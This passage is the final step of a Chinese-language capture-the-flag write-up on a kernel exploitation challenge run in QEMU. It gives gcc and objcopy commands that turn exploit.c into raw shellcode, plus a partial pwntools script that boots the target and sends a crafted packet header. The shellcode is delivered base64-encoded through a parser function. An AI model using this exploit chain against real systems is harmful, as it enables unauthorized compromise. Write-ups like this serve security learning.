## step 3 

最后一步，我们将两个 exp 合起来。首先拿到 exloit.c 的 shellcode，如果确实都改成 inline 汇编的话，直接这样编译就行。

```
gcc exploit.c -o exploit -pie -O2 -fno-stack-protector
```

提取出代码段，于是便得到了纯机器码的利用脚本。在打穿 parser 的脚本中读入这段 shellcode 即可完成利用。

```
objcopy -O binary --only-section=.text exploit exp.o
```

最后需要注意一点，shellcode 不能直接 `read` 进来，需要利用 parser 里的 `read_through_base64` 函数读 base64 进去。

> 直接发了不可见字符给 qemu 会被吞字节的，因为相当于发信号过去了。

最终 exp 如下，以不小的概率打通。

```python

import base64
import sys
import base64

sys.path.append('/home/x1do0/.local/lib/python3.8/site-packages')
sys.path.append('/home/x1do0/.local/lib/python3.8/site-packages/unicornafl-1.0.3-py3.8.egg')

print(sys.path)


from pwn import *

context(arch = 'amd64', os = 'linux', endian = 'little')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-p', '75']

def SEND(io, con):
    io.send(base64.b64encode(con))


# io = process("./parser")

io = process(["qemu-system-x86_64", "-m", "1024M", "-kernel", "bzImage", "-initrd", "rootfs.img", "-monitor", "/dev/null", "-append", "root=/dev/ram console=ttyS0 oops=panic panic=1 kpti=1 quiet", "-cpu", "kvm64,+smep,+smap", "-smp", "cores=2,threads=2", "-nographic", "-enable-kvm"])

# input()
# gdb.attach(io, "b *0x401B22")

for i in range(15):
    io.sendafter("ENTER YOUR PACKET > ", '\n')

io.recvuntil("ENTER YOUR PACKET > ")

### pakcet_hdr 0 - 0x30

packet_hdr = p32(0xAAA) + p32(1)
packet_hdr += p64(0)
packet_hdr += p32(0x877) # a1[4]
packet_hdr += p32(0x796f15c9) # crc32
packet_hdr = packet_hdr.ljust(0x30, b'\x00')


SEND(io, packet_hdr)

```
